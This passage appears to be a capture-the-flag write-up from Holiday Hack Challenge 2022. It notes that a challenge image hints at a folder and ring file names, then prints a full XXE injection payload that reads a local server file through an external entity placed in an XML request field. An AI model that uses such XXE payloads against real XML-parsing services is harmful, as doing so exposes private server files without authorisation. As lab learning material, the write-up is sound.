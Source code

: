 ![image](/assets/img/holiday_hack_challenge_2022/ae4bf99497d3afff20b5e9fc2951aff5fe8c51d39d1f699ac33e1621c7dd9ece.png)  

Picture shown contains several hints.

```
x_phial_pholder_2022
bluering.txt
redring.txt
```

![image](/assets/img/holiday_hack_challenge_2022/c6fea622fcf86c6ff447fae247e28c9009ca2264a057118a0ac75da2445b4e52.png)  

Performed XXE injection based on modified path.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt"> ]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```
